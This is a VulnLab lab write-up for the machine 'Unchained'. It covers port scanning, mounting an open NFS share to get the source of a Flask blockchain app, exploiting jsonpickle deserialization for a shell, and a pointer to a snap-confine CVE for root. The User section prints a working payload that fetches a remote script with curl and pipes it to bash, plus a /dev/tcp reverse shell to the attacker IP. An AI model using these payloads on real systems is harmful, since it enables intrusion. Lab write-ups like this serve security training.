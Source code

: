 ```yaml
---
title: VulnLab Unchained
description: VulnLab Unchained
image:
  path: unchained.png
categories:
- VulnLab Boxes
layout: post
media_subpath: /assets/posts/labs/vulnlab/boxes/unchained
tags:
- vulnlab-boxes
---
```

# Unchained
## Recon
```
└─$ rustscan -a 10.10.68.156 -r 1-65535 -g 
10.10.68.156 -> [22,111,2049,8000,13025]
```
```
└─$ nmap -sC -sV -p22,111,2049,8000,13025 10.10.68.156
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-19 22:39 +06
Nmap scan report for 10.10.68.156
Host is up (0.093s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 52:4b:a2:02:01:3f:c4:06:84:22:94:11:42:55:73:46 (RSA)
|   256 88:19:82:9b:38:b0:50:94:29:fb:a7:63:4f:67:8d:df (ECDSA)
|_  256 b0:eb:41:ab:08:d1:10:bf:67:0c:3e:80:09:1b:79:b4 (ED25519)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      13025/tcp   mountd
|   100005  1,2,3      13025/tcp6  mountd
|   100005  1,2,3      13025/udp   mountd
|   100005  1,2,3      13025/udp6  mountd
|   100021  1,3,4      37372/udp6  nlockmgr
|   100021  1,3,4      43263/tcp6  nlockmgr
|   100021  1,3,4      44299/tcp   nlockmgr
|   100021  1,3,4      56377/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs     3-4 (RPC #100003)
8000/tcp  open  http    Werkzeug httpd 2.0.3 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.3 Python/3.8.10
|_http-title: 404 Not Found
13025/tcp open  mountd  1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.77 seconds

```

## User
We see nfs
```
└─$ showmount -e 10.10.68.156
Export list for 10.10.68.156:
/var/nfs/backup *
```
Let's mount it and see the contents
```
└─$ sudo mount -t nfs 10.10.68.156:/var/nfs/backup /mnt/nfs -nolock
```
```
└─$ ls -lha /mnt/nfs             
total 24K
drwxr-xr-x 2 nobody nogroup 4.0K Feb 26  2022 .
drwxr-xr-x 6 root   root    4.0K May 18 22:23 ..
-rw-r--r-- 1 root   root     13K Feb 26  2022 code.zip
```
Let's download the zip and check it
```
└─$ unzip code.zip 
Archive:  code.zip
   creating: code/
  inflating: code/SocketConnector.py  
  inflating: code/NodeAPI.py         
  inflating: code/Block.py           
  inflating: code/Blockchain.py      
  inflating: code/SocketCommunication.py  
  inflating: code/ProofOfStake.py    
  inflating: code/PeerDiscoveryHandler.py  
  inflating: code/Lot.py             
  inflating: code/Main.py            
  inflating: code/TransactionPool.py  
  inflating: code/info.txt           
  inflating: code/Wallet.py          
  inflating: code/Transaction.py     
  inflating: code/Interaction.py     
  inflating: code/Node.py            
  inflating: code/Test.py            
  inflating: code/Message.py         
  inflating: code/AccountModel.py    
   creating: code/keys/
  inflating: code/keys/genesisPrivateKey.pem  
  inflating: code/keys/stakerPrivateKey.pem  
  inflating: code/keys/genesisPublicKey.pem  
  inflating: code/BlockchainUtils.py  

```

Looks like it's a Flask application based on `NodeAPI.py`. 

![](1.png)

After reviewing the code, we can find that route `/transaction` which receives and handles user input utilizes `BlockchainUtils.decode()` from `BlockchainsUtils.py`. The function uses `jsonpickle` to decode the input value. 

![](2.png)

We can try using the following [repository](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) to generate our payload, but no success. After googling more, we can find working payload from this [blog](https://medium.com/@0xbughunter/de-serialization-sometimes-pickle-can-be-too-sour-45c930e18b8e). Escape `"` before sending the payload via Burp
```
{\"py/object\": \"__builtin__.eval\", \"py/initargs\": {\"py/tuple\": [\"__import__('subprocess').Popen('curl 10.8.4.147/shell | bash', shell=True)\"]}}
```
```
└─$ cat shell                
/bin/bash -i >& /dev/tcp/10.8.4.147/443 0>&1
```

After sending the payload we receive our shell

![](3.png)

![](4.png)

## Root
After enumeration we can see that vulnerable `snap-confine` version available on the system. Thus we can try abusing [CVE-2021-44730](https://www.qualys.com/2022/02/17/cve-2021-44731/oh-snap-more-lemmings.txt) to get the `root` user. There's a nice [PoC](https://notes.secure77.de/OFFSEC-Notes/Linux-Related/CVEs/CVE~2021~44730-(snap~confine,-dirty-socks)) to achive this

[https://api.vulnlab.com/api/v1/share?id=e6be5db5-6013-4c38-a0bd-80aef9994aaf](https://api.vulnlab.com/api/v1/share?id=e6be5db5-6013-4c38-a0bd-80aef9994aaf)